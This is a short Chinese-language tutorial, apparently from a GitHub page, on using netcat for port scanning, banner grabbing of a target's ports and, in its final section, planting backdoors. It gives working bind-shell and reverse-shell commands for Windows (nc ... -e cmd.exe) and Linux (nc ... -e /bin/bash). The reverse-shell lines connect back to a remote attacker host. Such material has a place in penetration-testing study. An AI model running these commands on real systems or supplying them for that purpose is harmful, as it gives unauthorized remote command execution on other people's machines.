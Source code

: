 	通过netcat对目标端口进行探测。

#### 使用命令行

	nc -v -n -z -w1 [target_ip] [start_target_port-stop_target_port]

* -v 表示对错误进行详细输出
* -n 不对目标机器进行DNS解析
* -z zero I/O 模式，专用于端口扫描。表示对目标ip发送的数据表中不包含任何payload,这样做可以加快扫描的速度。
* -w1 超时设置为1秒

扫描某centos：

![dZf10I.png](https://s1.ax1x.com/2020/08/17/dZf10I.png)

#### banner 抓取使用方法

	echo " " | nc -v -n -w1 [target_ip] [start_target_port-stop_target_port]

抓取centos 1 - 1000 端口的banner信息。

![dZhu5V.png](https://s1.ax1x.com/2020/08/17/dZhu5V.png)

## netcat建立后门

#### 使用场景

1. 获取目标的命令执行权限

	当目标机器上存在netcat之后，可以使用netcat建立后门，来实现目标执行的功能。

#### 原理

netcat一切数据是通过标准输入/输出流实现的，所以可以利用netcat的命令行进行后门建立，并传输结果信息。

#### windows建立后门方法

* 监听型后门

		nc -l -p 4444 -e cmd.exe

* 连接型后门

		nc [remote_ip] [remote_port] -e cmd.exe

无论哪种后门，都需要使用`-e cmd.exe` 来返回对应的cmd.exe.

#### linux 建立后门

* 监听型后门

		nc -l -p 4444 -e /bin/bash

* 连接型后门

		nc [remote_ip] [remote_port] -e /bin/bash

无论哪种后门，都需要使用`-e /bin/bash` 来返回对应的shell.
